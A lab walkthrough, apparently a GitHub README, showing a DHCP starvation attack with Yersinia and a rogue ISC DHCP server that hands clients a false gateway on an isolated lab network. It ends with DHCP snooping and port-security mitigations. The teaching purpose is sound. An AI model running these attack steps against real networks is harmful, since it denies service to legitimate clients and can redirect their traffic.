

# DHCP Starvation & Rogue DHCP Server Attack Lab

**Topology Diagram:**



## 1. Objective
- Demonstrate DHCP starvation attack to exhaust the DHCP pool on a Cisco router (R1).
- Show how a rogue DHCP server can provide invalid addresses to legitimate clients.
- Observe impact on DHCP server CPU and address availability.

## 2. Lab Environment
- **PnetLab nodes:**
  - **R1 (3725)**: Acts as DHCP server and default gateway (192.168.1.1).
  - **Switch**: Layer 2 connectivity between all devices.
  - **R2 (Router)**: Trusted DHCP client.
  - **Ubuntu Attacker**: Performs DHCP starvation and rogue DHCP attacks.
  - **DHCP-SRV**: Native DHCP server service on R1.

- **Network segments:**
  - VLAN 1 / subnet 192.168.1.0/24

## 3. Prerequisites
- PnetLab project with nodes connected as shown.
- Basic IOS familiarity and root access on Ubuntu.
- Yersinia or other DHCP attack tools installed on Ubuntu.

## 4. DHCP Server Configuration (R1)
1. Enter global configuration and create a DHCP pool:
   ```shell
   R1> enable
   R1# configure terminal
   R1(config)# ip dhcp excluded-address 192.168.1.1 192.168.1.10
   R1(config)# ip dhcp pool LAB_POOL
   R1(dhcp-config)# network 192.168.1.0 255.255.255.0
   R1(dhcp-config)# default-router 192.168.1.1
   R1(dhcp-config)# dns-server 8.8.8.8
   R1(dhcp-config)# lease 1 0
   R1(dhcp-config)# exit
   R1(config)# exit
   ```
2. Verify DHCP service:
   ```shell
   R1# show ip dhcp binding
   R1# show ip dhcp pool
   ```

## 5. Baseline Verification
1. **On R2 (trusted client):**
   ```shell
   R2> enable
   R2# show ip interface brief
   # Expect: R2 has an address (e.g., 192.168.1.21) leased by R1
   ```
2. **On Ubuntu attacker:** Verify interface configuration:
   ```shell
   attacker@ubuntu:~$ ip addr show eth0
   # Expect: 192.168.1.22 (legit lease)
   ```
3. **Router CPU utilization:**
   ```shell
   R1# show processes cpu | include  DHCP
   # Expect: Low CPU (≈ 2%)
   ```
4. **Ping tests:**
   ```shell
   R2# ping 192.168.1.22
   attacker@ubuntu:~$ ping 192.168.1.21
   ```

## 6. Attack 1: DHCP Starvation

### 6.1 Install & Launch Yersinia
```bash
sudo apt update
sudo apt install yersinia -y
# Launch GUI
sudo yersinia -G
```

### 6.2 Configure Attack
1. In Yersinia GUI:
   - Select interface: `eth0` (or correct adapter).
   - Choose attack: **DHCP → Starvation**.
   - Start attack: floods DHCP DISCOVER repeatedly.

### 6.3 Observe Impact
1. **On R1:**
   ```shell
   R1# show processes cpu | include  DHCP
   # CPU spikes (e.g., 96%)
   R1# show ip dhcp binding
   # Hundreds of bogus leases consume pool
   ```
2. **New client test:**
   - Attempt to configure a new router (R3) or switch port for DHCP.
   - `show ip interface brief` shows no address assigned (starved).

## 7. Attack 2: Rogue DHCP Server

### 7.1 Install & Configure ISC DHCPd on Ubuntu
```bash
sudo apt install isc-dhcp-server -y
sudo tee /etc/dhcp/dhcpd.conf <<EOF
authoritative;
subnet 192.168.1.0 netmask 255.255.255.0 {
  range 192.168.1.100 192.168.1.200;
  option routers 192.168.1.254;
  option domain-name-servers 8.8.4.4;
  default-lease-time 600;
  max-lease-time 7200;
}
EOF
sudo systemctl restart isc-dhcp-server
```

### 7.2 Demonstrate Rogue Server
1. Connect a fresh client (e.g., R3) to the switch.
2. On R3:
   ```shell
   R3> enable
   R3# configure terminal
   R3(config)# interface fastEthernet0/1
   R3(config-if)# ip address dhcp
   R3(config-if)# no shutdown
   R3(config-if)# exit
   R3# show ip interface brief
   # Observe: address from rogue pool (e.g., 192.168.1.100+)
   ```

## 8. Mitigation & Hardening
- **DHCP Snooping** on switch:
  ```shell
  Switch(config)# ip dhcp snooping
  Switch(config)# ip dhcp snooping vlan 1
  Switch(config-if)# interface e0/2
  Switch(config-if)# ip dhcp snooping trust
  ```
- **Port Security:** Limit MAC on access ports.
- **Rate-limit DHCP requests:** On switch ports.
- **Network Admission Control:** Prevent unauthorized servers.

## 9. Cleanup
- Stop Yersinia attack.
- Remove rogue DHCPd or disable service:
  ```bash
  sudo systemctl stop isc-dhcp-server
  ```
- Clear bogus DHCP bindings on R1 and reboot or reload DHCP pool.

---